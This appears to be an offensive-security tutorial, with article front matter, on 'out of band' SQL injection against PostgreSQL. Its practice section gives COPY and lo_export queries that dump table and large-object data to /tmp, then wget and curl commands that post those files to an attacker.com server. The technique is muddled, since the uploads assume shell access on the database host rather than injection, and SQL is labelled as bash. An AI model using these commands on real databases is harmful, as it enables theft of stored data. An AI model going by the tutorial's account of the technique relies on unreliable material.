```yaml
---
title: Exploiting PostgreSQL Out of Band Injection
description: Learn how to exploit PostgreSQL Out of Band SQL Injection for data exfiltration.
keywords:
- PostgreSQL
- Out of Band SQL Injection
- data exfiltration
- COPY command
- lo_export
- database exploitation
- network protocols
---
```


# PostgreSQL Out of Band

## Context

In this article, we will explore how to exploit PostgreSQL Out of Band SQL Injection for data exfiltration. This offensive technique involves leveraging the PostgreSQL database's ability to communicate with external systems to extract data through non-standard communication channels. Readers should have an understanding of SQL queries, database interactions, and HTTP requests.

## Theory

### Out of Band SQL Injection in PostgreSQL

Out of Band SQL Injection is an advanced technique that uses external communication paths to extract data from a database. Unlike traditional SQL Injection methods, which rely on the database's direct responses, Out of Band Injection exploits the ability of the database to interact with other systems, such as web servers or DNS, to exfiltrate data.

### COPY Command Usage

The `COPY` command in PostgreSQL is used to transfer data between a file and a table. This functionality can be misused to exfiltrate data stored in the database by writing it to a file that is accessible externally. Attackers can then download this file containing sensitive data.

### lo_export Functionality

`lo_export` is a PostgreSQL function used to export large objects to a file. By leveraging this function, attackers can write large object data to a file for exfiltration. This method is particularly useful for exporting large data sets that cannot be easily extracted through conventional SQL Injection.

### Out of Band Communication Mechanisms

Out of Band data exfiltration involves utilizing network protocols to send data from the database to a remote, attacker-controlled server. This can be done by triggering the database to make HTTP or DNS requests containing the data intended for extraction.

## Practice

### Exfiltrate Data Using COPY Command

To exfiltrate data using the `COPY` command, follow these steps:

- Write the selected data to a file on the server:

  ```bash
  COPY (SELECT column FROM table) TO '/tmp/exfiltrated_data.csv';
  ```

- Send the file to an attacker-controlled server using `wget`:

  ```bash
  wget http://attacker.com/upload --post-file=/tmp/exfiltrated_data.csv
  ```

The outcome of this technique is that data from the PostgreSQL database is written to a file on the server and then sent to an external server controlled by the attacker.

### Exfiltrate Data Using lo_export

To exfiltrate data using `lo_export`, use the following steps:

- Export large object data to a file:

  ```bash
  SELECT lo_export(oid, '/tmp/exfiltrated_data.bin') FROM pg_largeobject;
  ```

- Upload the file to an attacker-controlled server using `curl`:

  ```bash
  curl -X POST -F 'file=@/tmp/exfiltrated_data.bin' http://attacker.com/upload
  ```

The outcome of this technique is that large object data from the PostgreSQL database is exfiltrated to a file, which is then uploaded to an external server controlled by an attacker.

## Tools

- **wget**
- **curl** 

These tools are used to send data from the server where PostgreSQL is running to an attacker-controlled endpoint. They are essential for the execution of the exploitation techniques described above.